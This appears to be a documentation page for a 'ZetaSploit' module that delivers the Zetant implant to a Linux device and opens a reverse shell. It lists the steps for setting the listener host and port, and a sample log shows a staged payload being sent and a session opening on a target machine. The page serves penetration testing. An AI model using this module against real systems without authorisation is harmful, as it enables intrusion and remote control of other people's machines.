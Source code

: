 # `exploit/linux/stager/zetant_reverse_tcp`

## Description

This module uses [Zetant Implant](https://github.com/enty8080/zetant) to send it to device and execute from `/private/var/tmp` to provide reverse shell.

## Verification Steps

1. Start ZetaSploit
2. Do `use exploit/linux/stager/zetant_reverse_tcp`
3. Do: `set LHOST` to your local host
4. Do: `set LPORT` to your local port
5. Do: `run`

## Options

| Option    | Default Value         | Required | Description        |
|-----------|-----------------------|----------|--------------------|
| `LHOST`   | `self.helper.getip()` | yes      | Local host.        |
| `LPORT`   | 4444                  | yes      | Local port.        |

**LHOST**

Variable that contains local host.

**LPORT**

Variable that contains local port.

## Scenarios

```
(zsf: exploit: linux/stager/zetant_reverse_tcp)> run
[*] Starting listener on port 4444...
[*] Binding to 192.168.2.108:4444...
[+] Listener started on port 4444!
[*] Connecting to 192.168.2.110...                
[*] Sending first stage...                        
[*] Executing first stage...                      
[*] Sending second stage...                       
[*] Executing second stage...                     
[*] Establishing connection...                    
[+] Session 0 opened!
(zsf: post: linux/zetant/trolling/say)> sessions
 
Sessions
========
 
    ID    Host             Username    Hostname     
    --    ----             --------    --------     
    0     192.168.2.110    enty8080    Ivans-Mint

(zsf: post: linux/zetant/trolling/say)>
```
